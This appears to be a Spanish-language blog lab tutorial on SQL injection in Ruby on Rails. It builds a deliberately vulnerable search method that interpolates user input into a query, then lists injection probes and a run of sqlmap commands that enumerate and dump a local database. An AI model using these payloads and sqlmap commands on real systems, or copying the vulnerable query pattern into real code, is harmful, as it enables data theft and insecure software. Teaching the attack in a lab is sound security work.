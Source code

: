 ```yaml
---
layout: post
title:  "Rails 5 SQL Inyection On Rails"
date:   2016-04-26 00:37:19 -0300
categories: jekyll update
---
```

El siguiente laboratorio tiene como objetivo comprender uno de los ataque más populares en aplicaciones web, Inyección SQL, como muchos sabrán una inyección sql tiene como objetivo hacer consultas a la base de datos mediante la manipulación de los parámetros evitando la autorización del administrador,pudiendo obtener la manipulación y extracción de datos confidenciales que pueden comprometer el modelo de negocio de la compañía.

A continuación vamos a crear una aplicación en Ruby on Rails:

```
rails new My-Application
```
Para este ejemplo crearemos un modelo para el usuario con un atributo name:string

```
rails g model user name:string
```

Además agregaremos un método,cuya función será buscar usuarios por el atributo name.
{% highlight ruby %}
def search(params)
 User.where("name = '#{params}'")
end
{% endhighlight %}

Ahora que ya creamos nuestro primer método vulnerable, vamos a descubrir vulnerabilidad, para ello podemos realizar las siguientes pruebas:

```
localhost:3000/search/1 and 1 = 1 --
localhost:3000/search/1 and sleep(10)
sqlmap -u = “localhost:3000/tests/*” --dbms=”SQLite” --risk=”3” --level= “5”
```

Si un usuario malicioso entra ' OR 1 -- , la consulta SQL resultante será :
```
SELECT * FROM users WHERE name = '' OR 1 --'
```

Explotamos vulnerabilidad

```
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --dbs
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --dbs -D database --table
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 --tables 
sqlmap -u "http://localhost:3000/search/*" --dbms="SQLite" --risk=3 --level=5 -T inyections --dump -v 3
```

Ayuda SQLMAP.

```
/sqlmap.py -u URL --dbs/ 
/sqlmap.py -u URL -D --table    
/sqlmap.py -u URL -D -T -columns
/sqlmap.py -u URL -D -T -C --dump


-D:Base de datos
-T:Tablas
-C:Columnas
-U:Usurio

--table 
--columns
--dump
```